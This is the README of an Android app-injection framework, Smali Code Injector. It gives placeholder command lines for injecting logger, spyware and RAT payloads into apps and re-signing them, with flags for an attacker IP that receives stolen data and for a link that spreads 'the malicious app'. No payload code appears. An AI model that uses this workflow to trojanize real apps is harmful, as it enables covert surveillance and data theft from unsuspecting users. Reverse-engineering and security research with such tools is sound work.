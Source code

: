 ![SCI](images/sci_logo.png)
# Smali Code Injector 
## Automate assembly code injections within Android applications. 

The original purpose of this project was to automate the injection of stacktraces withing Andrdoid apps. Adding stacktraces helps in the process of reverse engineering and gives a good understanding of applications logic and workflow. Indeed, being able to obtain (log and print out) applications runtime method calls as well as the returned value would allow an attacker to save a considerable amount of time when reverse engineering complex Android applications and performing advanced code analysis. 

Lately, I improved SCI by adding new features and payloads to attempt to fully automate assembly code injections. As a result I ended up with this highly customisable modular framework that allows the creation/use of any assembly payload. Consequently, a user familiar with Android development could use SCI to create its own module and automate its payload injection without having to worry about the registers dependancie, type, etc.

More information about reverse engineering Android apps:

<http://www.n00blinuxhacker.com/android-pentesting-reverse-engineering-android-app.html>

### Automation for a better world
The code injection is performed at the assembly level (smali files). Which makes the identification of applications modified using SCI complicated and time consuming. This would require considerable of work (mainly network, permissions, signature and code analysis).

A high level overview of the different steps performed by SCI when injecting codes are:
* Disassembling the application
* Collecting relevant information about the application. 
	* Classes name.
	* Methods name.
	* Registers number and type.
	* etc.
* Editing the AndroidManifest.xml to add permissions, services and broadcastReceivers (depending on the payload requirements).
* Injecting and tweaking up the selected payload within the targeted method(s).
* Reassembling and signing the app with a valid self-signed certificate.

## Usage
### Examples:
To inject a payload:

		$ python3 sci.py -a [app] -t [target] -k [keyword] -p [payload] -rh [remote_host] -d [download_link]
	[-a]: 	Android applicaion to modify.
	[-t]: 	smali file within the application where to perform the injection. If this argument is absent, the injection is performed within the whole app.
	[-k]: 	keywords to filter on. Ex: if -k "SSL,X509TrustManager" the payload will only be injected on the method containing SSL in their declaration header -help for certificate unpinning-.
	[-p]: 	payload to use. 
	[-rh]:  IP address of the attacker/script for sending the stolen data.
	[-d]:	link to download the malicious app -to propagate the malware-.

	Tip: Inject the rat on the onCreate() method of the main activity

To inject the Spyware:

		$ python3 sci.py -a [app] -t [target] -k [keyword] -p spyware -rh [script] -d [download_link]

	
	[-rh]: 	IP of the remote receiver (or URL of the file responsible for the JSON data handling and parsing (a script example can be found under /scripts/handler.php -don't forget to change the settings to connect to your DB-).
    [-d]:	link with the malicious app. 

To inject the Logger:

		$ python3 sci.py -a [app] -t [target] -k [keyword] -p logger

	Note: Connect your phone to your computer and use the following command to filter and print out only the modified app runtime method calls:

		$ adb logcat | grep "::trace

To identify the main activity location (works even with obfuscated app):

		$ python3 sci.py -a [apps] -s
		
To display the help menu:

		$ python3 sci.py  -h

## Dependencies
### Third-party libraries
#### progressbar:
You need to install the progressbar package available at the link below. Alternatively, you can also comment out every lines linked to the use of this library in the **payload.py** file.
	
<http://code.google.com/p/python-progressbar/>

Installation on Linux (debian):

	$ sudo apt-get install python3-progressbar -y

## Future Improvements
* Add new payloads (reverse shell).
* Source code optimisation.

## Project Information
This framework was developed in the context of my master thesis work in July 2015.	

## Licenses
### Smali Code Injector:
   Copyright (C) 2015 Alexandre Teyar

Licensed under the Apache License, Version 2.0 (the "License");
you may not use this file except in compliance with the License.
You may obtain a copy of the License at

<http://www.apache.org/licenses/LICENSE-2.0>

Unless required by applicable law or agreed to in writing, software
distributed under the License is distributed on an "AS IS" BASIS,
WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
See the License for the specific language governing permissions and
   limitations under the License. 

### Apktool:
   Copyright (C) 2010 Ryszard Wiśniewski 

Licensed under the Apache License, Version 2.0 (the "License");
you may not use this file except in compliance with the License.
You may obtain a copy of the License at

<http://www.apache.org/licenses/LICENSE-2.0>

Unless required by applicable law or agreed to in writing, software
distributed under the License is distributed on an "AS IS" BASIS,
WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
See the License for the specific language governing permissions and
   limitations under the License. 

### python-progressbar:
   Copyright (C) 2005 Nilton Volpato

Licensed under the Apache License, Version 2.0 (the "License");
you may not use this file except in compliance with the License.
You may obtain a copy of the License at

<http://www.apache.org/licenses/LICENSE-2.0>

Unless required by applicable law or agreed to in writing, software
distributed under the License is distributed on an "AS IS" BASIS,
WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
See the License for the specific language governing permissions and
   limitations under the License.

### smali/baksmali:
   Copyright (c) 2010 Ben Gruver (JesusFreke)
All rights reserved.

Redistribution and use in source and binary forms, with or without
modification, are permitted provided that the following conditions
are met:

1. Redistributions of source code must retain the above copyright
   notice, this list of conditions and the following disclaimer.
2. Redistributions in binary form must reproduce the above copyright
   notice, this list of conditions and the following disclaimer in the
   documentation and/or other materials provided with the distribution.
3. The name of the author may not be used to endorse or promote products
   derived from this software without specific prior written permission.

THIS SOFTWARE IS PROVIDED BY THE AUTHOR ``AS IS'' AND ANY EXPRESS OR
IMPLIED WARRANTIES, INCLUDING, BUT NOT LIMITED TO, THE IMPLIED WARRANTIES
OF MERCHANTABILITY AND FITNESS FOR A PARTICULAR PURPOSE ARE DISCLAIMED.
IN NO EVENT SHALL THE AUTHOR BE LIABLE FOR ANY DIRECT, INDIRECT,
INCIDENTAL, SPECIAL, EXEMPLARY, OR CONSEQUENTIAL DAMAGES (INCLUDING, BUT
NOT LIMITED TO, PROCUREMENT OF SUBSTITUTE GOODS OR SERVICES; LOSS OF USE,
DATA, OR PROFITS; OR BUSINESS INTERRUPTION) HOWEVER CAUSED AND ON ANY
THEORY OF LIABILITY, WHETHER IN CONTRACT, STRICT LIABILITY, OR TORT
INCLUDING NEGLIGENCE OR OTHERWISE) ARISING IN ANY WAY OUT OF THE USE OF
THIS SOFTWARE, EVEN IF ADVISED OF THE POSSIBILITY OF SUCH DAMAGE.
